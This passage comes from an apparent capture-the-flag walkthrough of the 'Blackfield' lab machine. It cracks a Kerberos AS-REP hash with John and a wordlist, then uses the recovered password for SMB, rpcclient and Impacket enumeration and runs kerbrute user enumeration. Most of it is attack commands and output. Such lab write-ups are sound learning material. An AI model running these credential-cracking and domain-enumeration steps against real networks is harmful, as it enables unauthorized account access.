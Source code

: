 Now we have the hash for the `support@BLACKFIELD` user. Lets try to crack it with John.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt support.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD)     
1g 0:00:00:22 DONE (2022-08-29 20:47) 0.04486g/s 643158p/s 643158c/s 643158C/s #1WIF3Y.."chito"
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| username | password |
| --- | --- |
| support | #00^BlackKnight | 


Lets check if we have access to any new files on the `profiles$` share.

```
$ smbclient '//10.10.10.192/profiles$' -U 'support'
Password for [WORKGROUP\support]: #00^BlackKnight

smb: \> ls support\
  .                                   D        0  Wed Jun  3 09:47:12 2020
  ..                                  D        0  Wed Jun  3 09:47:12 2020

                5102079 blocks of size 4096. 1676779 blocks available
```


List users - GetADUsers.py
```
$ ~/impacket/examples/GetADUsers.py -dc-ip 10.10.10.192 -all 'blackfield.local/support:#00^BlackKnight'
```

List users - rpcclient
```
$ rpcclient dc01.BLACKFIELD.local -U 'support' 
Password for [WORKGROUP\support]: #00^BlackKnight
rpcclient $> enumdomusers
```

Clean list of users we got from RCP

```bash
cat rpc_users.lst.tmp | awk -F\[ '{print $2}' | awk -F\] '{print $1}' | sort -u > rpc_users.lst
```

Run again kerbrute with new list of users

```bash
~/Downloads/kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d blackfield -o kerbrute.rpc.userenum.out rpc_users.lst
```
